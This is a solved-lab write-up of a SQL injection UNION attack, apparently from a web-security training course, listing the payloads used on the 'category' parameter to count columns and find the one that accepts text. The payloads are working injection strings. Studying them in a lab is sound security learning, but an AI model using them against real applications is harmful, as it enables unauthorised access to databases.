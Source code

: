 # Lab 4 - SQL injection UNION attack, finding a column containing text

**Status**: Solved the 1st August 2023.

**Objective**: Identify a column compatible with string data, and return the provided value in there.

## Solving Process

- As happened in the last labs, the vulnerable parameter is `category`, so the payload will be injected in there as well.
- The first step is to find how many columns does the original query has, for that let's try this payload `'+UNION+SELECT+NULL--` and add `NULL` until there's no error message returned.
  - 1 col: `'+UNION+SELECT+NULL--`, returns an error.
  - 2 cols: `'+UNION+SELECT+NULL,NULL--`, returns and error.
  - 3 cols: `'+UNION+SELECT+NULL,NULL,NULL--`, returns *no error*.
- The number of columns is 3.
- Now let's find which columns allow strings, by changing the `NULL` with a string in each position, until we get no errors at all in the response.
  - 1st col: `'+UNION+SELECT+'abc',NULL,NULL--`, returns an error.
  - 2nd col: `'+UNION+SELECT+NULL,'abc',NULL--`, returns *no error*.
  - The second column accepts strings
- To return the provided value `'6scgin'`, simply replace the test string with the right one.
  - `'+UNION+SELECT+NULL,'6scgin',NULL--` solves the lab!
